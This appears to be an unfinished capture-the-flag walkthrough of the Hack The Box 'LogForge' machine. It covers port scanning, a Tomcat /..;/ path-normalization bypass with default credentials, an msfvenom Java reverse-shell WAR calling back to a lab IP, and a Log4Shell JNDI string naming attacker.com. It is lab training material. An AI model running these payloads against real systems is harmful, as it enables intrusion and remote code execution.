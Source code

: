 ```yaml
---
tags:
---
```

![](https://labs.hackthebox.com/storage/avatars/9b50e63692fc35f864c8df9c19ef0e2f.png)

- Machine : 
- Reference : 
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.138
Performing quick port scan on 10.10.11.138...
Found open ports: 22,80
Performing detailed scan on 10.10.11.138...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-01 05:36 EST
Nmap scan report for 10.10.11.138
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ultimate Hacking Championship
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.04 seconds
```

2 ports are open : `ssh(22)`, and `http(80)`
Let me start from web service on port 80.

### http(80)

![](attachments/logforge_1.png)

The main page is simple. It has only a single image.
Its source code doesn't have anything special.
Let's scan further with `nikto`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://10.10.11.138
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.138
+ Target Hostname:    10.10.11.138
+ Target Port:        80
+ Start Time:         2024-12-01 05:47:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

The website looks simple and normal apparently...
I fuzzed around website and tried to observe web request header when 404 error.
Here I can find some weird mismatch.

![](attachments/logforge_3.png)

This is the 404 error message saying that the server is running `Apache Tomcat/9.0.31`.

![](attachments/logforge_4.png)

This is the request header identifying the server as `Apache/2.4.41`.
This means that there must be a reverse-proxy which is running behind.

Here's a reference announced in 2018 how to exploit this mismatch:
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

In summary, due to the difference between the server-side applications, there might be a slack to exploit Path Normalization process.
`/..;/` can be processed as parent directory in its backend.

So, if I connect to `http://10.10.11.138/whatever/..;/manager/`,
This will be redirected to `http://10.10.11.138/manager` which is prohibited to connect.

![](attachments/logforge_2.png)

Yup, it shows a login input. I can try default credential : `tomcat:tomcat`, and it works!

![](attachments/logforge_6.png)

# Shell as `www-data`

### Uploading `war` file to open a reverse shell

Once you have an access to "apacheNaive approach is uploading malicious `war` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.10.11.7 LPORT=9000 -f war -o rshell.war
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: rshell.war
```

However, when I tried to upload and deploy the file, I got the following error;

```yaml
FAIL - Deploy Upload Failed, Exception: [org.apache.tomcat.util.http.fileupload.impl.FileSizeLimitExceededException: The field deployWar exceeds its maximum permitted size of 1 bytes.]
```

It says the size for the uploaded file is limited to 1 bytes.
It's almost impossible to upload 1 byte reverse shell file...

Let's try look for other methods... Log4Shell!

### Log4Shell

To summarize Log4J vulnerability, it's a vulnerability happening on `Log4J` module in Java engine.

`${jndi:ldap://attacker.com/a}` This request is for an lookup operation.
However, this request might triggers server-side fetching remote server, and ended up executing remote code if the URL contains malicious code.

 I tested existing applications in tomcat manager, and found out that `Expire sessions` for `/UHC{BadWayToBlockTomcat}` contains POST parameter that we can inject `jndi` string.

While sending the request, I can check it's working by monitoring LDAP traffic using `tcpdump`.

![](attachments/logforge_7.png)

It is! The server is trying to fetching our kali machine from its backend which means it's vulnerable to `Log4Shell` attack.

There's an existing exploit named "JNDI-Exploit-Kit" as follows;
https://github.com/pimps/JNDI-Exploit-Kit/


> Let me hold here. The existing walkthrough using `ysoserial` and `jndi-exploit-kit` are not working... Let's visit later.